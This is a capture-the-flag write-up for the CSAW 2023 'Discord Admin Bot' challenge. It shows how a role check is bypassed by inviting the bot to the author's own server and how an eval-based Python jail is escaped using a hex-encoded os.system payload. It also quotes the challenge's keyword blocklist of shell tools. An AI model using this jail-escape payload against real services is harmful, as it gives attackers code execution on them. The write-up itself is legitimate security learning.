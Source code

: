 # Discord Admin Bot

## Description

Join discord and get the flag.

discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23
discord.gg/csaw23

`Author: Krishnan Navadia`

## Files

* [bot_send.py](files/bot_send.py)

## Solution

We are given a Discord bot written in Discord.py. It's relatively simple:

1. !flag
2. !add <num1> + <num2>
3. !sub <num1> - <num2>

I first joined the Discord and went over to `#discord-admin-bot`. A lot of people were spamming commands trying to get the flag:

```
!add client.add_roles(message.author, "ADMIN_ROLE") ; !flag
!flag role.name = ADMIN_ROLE
!add ("!add client.add_roles(message.author, "ADMIN_ROLE") ; eval('ctx.send("!flag")')"); !flag
```

However, the first thing I noticed when reading the source code was:

```python
admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
```

There is a conditional check when you run commands, and so if `admin_flag` does not evaluate to True, then you will never get to the `pyjail()` function which is where we can execute arbitrary Python code.

I had to think of a way to get 'ADMIN_ROLE' and spent some time researching how message contexts are passed. Then, I remembered an older CTF challenge I solved where we had to find a Discord server based on the server ID and nothing else. We are in the Discord, and we have access to the Bot's Client ID (assuming Developer mode is enabled). With a Client ID, you can [generate](https://discordapi.com/permissions.html) a bot invite link and invite the bot to your own server. 

Once you have the bot in your own server, the path forward is trivial. We need to create the role 'admin' and assign it to ourselves. Now, when we execute `!flag, !add, !sub` instead of a help message, we are able to actually execute commands. 

We know that `!add` and `!sub` call `pyjail()`. Let's take a look:

```python
arg = " ".join(list(args))
ans = pyjail(arg)

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

COOLDOWN = []

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"

```

So, take the command `!add 3 + 3` for example. The arguments will be ['3', '+', '3']. Then, we join the list into a space separated string: "3 + 3". Lastly, it gets passed to `pyjail()` and executed in a subprocess:

```bash
python3 -c print(eval("3 + 3"))
```

Because we can control what gets passed to `pyjail()`, we have remote code execution. The only thing is to bypass the blacklist. Typically, you can call something like ` __import__('os').system('ls')`, but the blacklist prevents us from using `import`. Luckily, HackTricks has a page for [Bypass Python Sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), and I learned you can pass hex encoded strings to `eval()` and it will still execute!

A quick Python script to convert our payload to hex:

```python
payload = "__import__('os').system('cat flag.txt')"

for c in payload:
    hex_c = hex(ord(c))[2:]
    hex_c = "\\x" + hex_c
    print(hex_c, end="")

>> \x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29
```

Now, we just need to execute:

```
!add \x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29
```

`csawctf{Y0u_4r3_th3_fl4g_t0_my_pyj4il_ch4ll3ng3}`
